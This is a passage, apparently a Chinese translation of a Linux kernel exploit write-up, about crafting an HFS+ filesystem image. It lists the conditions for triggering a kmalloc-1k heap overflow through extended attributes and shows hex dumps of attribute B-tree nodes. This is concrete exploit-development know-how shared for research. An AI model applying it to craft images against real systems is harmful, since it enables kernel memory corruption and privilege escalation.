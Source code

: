   
将它与头文件中的结构交叉引用  
hfsplus_vh并查阅后  
struct hfsplus_extent，应该很明显：  
- 目录文件位于  
0xc02000  
  
- 属性文件位于  
0x102000  
  
这两个都是 B 树，因此寻找这些地址，我们会看到其中的头节点和 B 树头。  
  
树中的所有节点要么是头节点，要么是索引节点，要么是映射节点，要么是叶节点，无论如何它们都具有这种结构：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacia2klwkMboUlFlGFIc4Bw8VNMse5a1QwvB6sX3AJeFkCOAACpAgT1evx9TyHVXsTbwqI1yO6e83w/640?wx_fmt=png&from=appmsg "")  
  
  
现在，我们也不会太关心目录文件。考虑到我们的漏洞，触发原语只需要几个要求：  
- 属性 B 树的根必须为空指针（以绕过检查  
__hfs_brec_find）  
  
- 文件系统上必须有一个有效的文件，并且具有我们可以设置属性的全局写入权限（来自目录）  
  
- 无论我们设置什么扩展属性，它都必须触发  
hfs_bnode_read_key，这意味着该文件应该已经具有一堆扩展属性，并且我们插入的扩展属性必须具有比这些属性更低的键，因此代码会考虑将其插入为节点中的第一个记录  
  
哦，为了获得有意义的结果，我们的密钥长度应该大于 1024，以便在 kmalloc-1k 溢出中做一些有用的事情，但这很简单。  
  
为了实现这一点，可以使用 mkfs 挂载刚刚创建的新 hfs+ 文件系统。在漏洞利用中，我们只需触摸一个文件  
/hacked_node并在其上添加一些用户扩展属性。也就是说，我们可以添加  
user.one、user.two和  
user.three以及  
user.four一些虚拟值作为扩展属性。  
  
卸载并检查它在二进制中的样子，我们只需要寻找上面找到的属性文件偏移量  
0x102000。  
  
```
00102000: 0000 0000 0000 0000 0100 0003 0000 0000 ................00102010: 0000 0000 0000 0000 0000 0000 0000 0000 ................00102020: 2000 010a 0000 0080 0000 007f 0000 0010 ...............
```  
  
  
at表示节点具有该大小，并且由于这是一个头节点，我们必须向前寻找才能找到第一个保存实际时髦数据的节点  
0x2000。  
0x102020  
0x20  
00  
  
```
00104000: 0000 0000 0000 0000 ff01 0004 0000 001e  ................00104010: 0000 0000 0010 0000 0000 0009 0075 0073 .............u.s00104020: 0065 0072 002e 0066 006f 0075 0072 0000 .e.r...f.o.u.r..00104030: 0010 0000 0000 0000 0000 0000 0005 6475 ..............du00104040: 6d6d 7900 001c 0000 0000 0010 0000 0000 mmy.............00104050: 0008 0075 0073 0065 0072 002e 006f 006e  ...u.s.e.r...o.n00104060: 0065 0000 0010 0000 0000 0000 0000 0000 .e..............00104070: 0005 6475 6d6d 7900 0020 0000 0000 0010 ..dummy.. ......00104080: 0000 0000 000a 0075 0073 0065 0072 002e  .......u.s.e.r..00104090: 0074 0068 0072 0065 0065 0000 0010 0000 .t.h.r.e.e......001040a0: 0000 0000 0000 0000 0005 6475 6d6d 7900 ..........dummy.001040b0: 001c 0000 0000 0010 0000 0000 0008 0075 ...............u001040c0: 0073 0065 0072 002e 0074 0077 006f 0000 .s.e.r...t.w.o..001040d0: 0010 0000 0000 0000 0000 0000 0005 6475 ..............du001040e0: 6d6d 7900 0000 0000 0000 0000 0000 0000 mmy.............001040f0: 0000 0000 0000 0000 0000 0000 0000 0000 ................00104100: 0000 0000 0000 0000 0000 0000 0000 0000 ................00104110: 0000 0000 0000 0000 0000 0000 0000 0000 ................00104120: 0000 0000 0000 0000 0000 0000 0000 0000 ................
```  
  
